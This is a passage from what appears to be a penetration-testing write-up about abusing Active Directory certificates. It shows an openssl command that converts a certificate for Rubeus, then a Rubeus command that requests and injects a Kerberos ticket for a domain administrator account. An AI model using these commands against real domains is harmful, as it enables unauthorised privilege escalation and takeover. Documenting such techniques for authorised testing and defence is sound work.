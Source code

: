 ##### Step 6: Converting the Certificate <a id="step-6-converting-the-certificate"></a>

Next, I converted the certificate to a format compatible with **Rubeus** for further use:
```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
![Certify Conversion Command](assets/img/posts/20250325/Certify-Conversion-Command.png)

##### Step 7: Obtaining a TGT <a id="step-7-obtaining-a-tgt"></a>

Using the converted certificate, I requested a TGT for the `administrator@domain-b.local` account:
```cmd
.\Rubeus.exe asktgt /user:administrator /certificate:[CERTIFICATE] /password:[PASSWORD] /nowrap /domain:domain-b.local /ptt
```
![Certify Tgt Request](assets/img/posts/20250325/Certify-TGT-Request.png)
